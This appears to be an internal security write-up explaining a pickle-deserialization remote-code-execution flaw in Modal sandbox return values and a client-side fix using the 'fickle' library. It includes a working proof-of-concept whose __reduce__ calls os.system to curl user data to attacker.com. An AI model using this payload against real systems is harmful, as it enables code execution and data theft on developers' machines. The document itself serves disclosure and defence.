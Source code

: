 # Modal Sandbox Security: Pickle-based RCE Prevention

## Executive Summary

We discovered a critical security vulnerability in Modal's use of pickle for serialization/deserialization of Function return values. When untrusted user code in a Modal sandbox returns malicious objects, they can execute arbitrary code on the client machine during deserialization. This document outlines the complete solution using the `fickle` library for safe pickle deserialization.

## The Vulnerability

### How the Attack Works

1. **User submits malicious code** to run in Modal sandbox:
```python
def run(self) -> BlockResult:
    class SimpleExploit:
        def __reduce__(self):
            # This executes during unpickling on the client
            return (os.system, ('curl -X POST "https://attacker.com" -d "uname=$USER"',))
    
    return {"output": SimpleExploit()}
```

2. **Modal pickles the return value** to send back to the client
3. **Client deserializes the pickle**, which triggers the `__reduce__` method
4. **Arbitrary code executes** on the client machine (not in the sandbox!)

### Proof of Vulnerability

The attack was confirmed by observing `uname=yeldarb` in the attacker's logs, proving the code executed on the developer's laptop, not on Modal's servers (which would show `uname=modal`).

## The Solution: Fickle Integration

### What is Fickle?

`fickle` is a Python library that provides safe pickle deserialization by implementing a firewall that blocks dangerous operations like:
- `os.system`, `subprocess` calls
- `eval`, `exec`, `__import__`
- Any other potentially dangerous pickle operations

### Why This Approach?

1. **We cannot trust the sandbox** - It's running untrusted user code
2. **Server-side sanitization won't work** - Malicious users could patch it
3. **Client-side protection is essential** - We must protect the machine receiving data
4. **No fallbacks allowed** - Any fallback to regular pickle is a security hole
